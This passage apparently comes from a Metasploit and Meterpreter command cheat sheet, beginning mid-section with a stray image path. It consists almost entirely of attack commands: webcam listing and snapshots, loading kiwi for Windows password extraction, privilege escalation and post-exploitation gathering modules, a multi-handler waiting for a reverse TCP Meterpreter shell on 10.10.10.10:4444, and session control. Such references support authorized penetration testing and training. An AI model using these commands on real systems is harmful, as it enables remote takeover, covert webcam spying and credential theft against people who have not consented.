 ```bash
webcam_list                # List webcams
webcam_snap                # Take webcam photo
```

### Meterpreter Modules
```bash
# Load additional modules
load kiwi                   # Password extraction (Windows)
load stdapi                 # Standard API functions
load priv                   # Privilege escalation functions

# Post-exploitation modules
run post/linux/gather/enum_system        # System enumeration
run post/linux/gather/checkvm            # Virtual machine detection
run post/linux/gather/enum_configs       # Configuration files
```

---

## Multi-Handler and Session Management

### Setting up Multi-Handler
```bash
# Configure multi-handler for incoming connections
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444
exploit -j                  # Run in background
```

### Session Management
```bash
# List active sessions
sessions -l

# Interact with session
sessions -i 1               # Interact with session 1

# Background current session
background

# Kill sessions
sessions -k 1               # Kill session 1
sessions -K                 # Kill all sessions

# Upgrade shell to Meterpreter
sessions -u 1               # Upgrade session 1
```

---
